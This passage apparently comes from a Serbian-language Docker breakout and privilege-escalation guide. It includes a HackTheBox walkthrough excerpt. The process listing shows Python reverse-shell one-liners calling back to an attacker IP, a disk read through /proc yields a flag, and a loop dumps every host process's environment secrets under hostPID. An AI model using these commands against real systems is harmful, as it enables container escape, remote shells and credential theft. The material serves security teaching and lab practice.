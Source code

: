 ```bash
augustus@3a453ab39d3d:/backend$ /bin/sh
/bin/sh
$
```

```bash
# On the host

# get the real PID of the shell inside the container as the new https://app.gitbook.com/s/-L_2uGJGU7AVNRcqRvEi/~/changes/3847/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells user
augustus@GoodGames:~$ ps -auxf | grep /bin/sh
root      1496  0.0  0.0   4292   744 ?        S    09:30   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
root      1627  0.0  0.0   4292   756 ?        S    09:44   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
augustus  1659  0.0  0.0   4292   712 ?        S+   09:48   0:00                          \_ /bin/sh
augustus  1661  0.0  0.0   6116   648 pts/0    S+   09:48   0:00              \_ grep /bin/sh

# The process ID is 1659 in this case
# Grep for the sda for HTB{ through the process:
augustus@GoodGames:~$ grep -a 'HTB{' /proc/1659/root/sda
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
```

### hostPID

Ako možete pristupiti procesima domaćina, moći ćete pristupiti mnogim osetljivim informacijama koje se čuvaju u tim procesima. Pokrenite test laboratoriju:

```
docker run --rm -it --pid=host ubuntu bash
```

Na primer, moći ćete da izlistate procese koristeći nešto poput `ps auxn` i tražite osetljive detalje u komandama.

Zatim, kako možete **pristupiti svakom procesu domaćina u /proc/, možete jednostavno ukrasti njihove tajne okoline** pokretanjem:

```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done
/proc/988058/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=argocd-server-69678b4f65-6mmql
USER=abrgocd
...
```

Takođe možete **pristupiti fajl deskriptorima drugih procesa i pročitati njihove otvorene fajlove**:
